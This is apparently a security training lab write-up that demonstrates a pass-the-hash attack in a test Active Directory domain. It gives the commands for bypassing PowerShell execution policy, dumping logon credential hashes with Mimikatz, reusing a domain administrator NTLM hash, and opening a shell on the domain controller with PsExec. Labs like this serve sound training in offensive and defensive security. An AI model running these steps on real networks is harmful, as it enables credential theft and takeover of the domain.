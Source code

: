 # Active Directory LAB - Passing the hash - v04

## Passing the hash

By: CyberSec

**Tools:** 

Invoke-Mimikatz -  [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

PsExec.exe - [https://learn.microsoft.com/en-us/sysinternals/downloads/psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

Syntax for passing the hash with Invoke-Mimikatz.ps1: 

Command:

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:csl.local /ntlm:<ntlmhash> /run:powershell.exe"

```

### Step 1:

Run Command prompt as local administrator 

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled.png)

### Step 2:

Start Powershell and bypass execution policy.

**Command:**

```powershell
powershell -ep bypass
```

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%201.png)

### Step 3:

Import Mimikatz.ps1 into the running powershell session

**Command:**

```powershell
. .\Invoke-Mimikatz.ps1
```

### Step 4:

With local administrator privileges on any host in the domain, we can download and use Mimikatz to extract logon password hash. The below command usually shows recently logged on user and computer credentials.

**Command:**

```powershell

. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
```

The below hash was provided for us to reuse it against another target machine.

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%202.png)

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%203.png)

```powershell
Domain Administrator NTLM Hash: 9906ed8e920cc9870cf919af7db14875
```

Since, we were able to get the Domain Administrators hash, we can attempt to pass the hash in order to access the domain controller without knowing the plaintext password.

### Step 5:

Start a new Powershell session with local administrator’s privileges and use **invoke-mimikatz.ps1** to pass the hash to move laterally:

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%204.png)

**Command:**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:csl.local /ntlm:9906ed8e920cc9870cf919af7db14875 /run:powershell.exe"'
```

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%205.png)

A new powershell session is started once the above command is issued.

### **Step 6:**

Finally, can use PsExec.exe 

**Command:** 

```powershell
. .\PsExec.exe -Accepteula \\dc01.csl.local cmd
```

![Untitled](./ActiveDirectory/pthlab/LAB/Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%206.png)